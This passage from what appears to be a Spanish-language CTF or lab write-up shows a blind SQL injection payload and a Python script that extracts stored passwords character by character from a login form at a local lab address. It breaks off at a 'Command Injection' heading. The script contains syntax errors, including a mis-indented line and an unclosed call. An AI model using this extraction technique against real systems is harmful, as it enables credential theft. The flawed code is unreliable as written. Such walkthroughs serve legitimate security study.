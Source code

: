 or (select substr(group_concat(password),1,1) from code)='a'-- -

- Para probar cada posibilidad nos creamos una script en python:

```python
#!/usr/bin/python3

from pwn import *
import requests, sys, time, signal, string

def def_handler(sig,frame):
    print ("\n\n[!] Saliendo...\n")
    sys.exit(1)

#Variables globales
main_url = "http://192.168.0.234:8080/login"
characters = string.ascii_lowercase + string.digits + ","

def makeSQLI():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Datos extraidos")
    extracted_info = ""

    for position in range(1,100):
        for character in characters:
            post_data = {
                'password': '''" or (select substr(group_concat(password),%d,1) from code)='%s'-- -''' % (position,character)
            }
            r = requests.post(main_url, data=post_data)
            if "WRONG INFORMATION" not in r.text:
            extracted_info += character
                p2.status(extracted_info)
                break
#Ctrl+C
signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
    makeSQLI(

```

- Ejecutamos la script y nos devuelve algunas credenciales, probamos cualquiera en la página y nos redirige a "/scan":


# Command Injection:
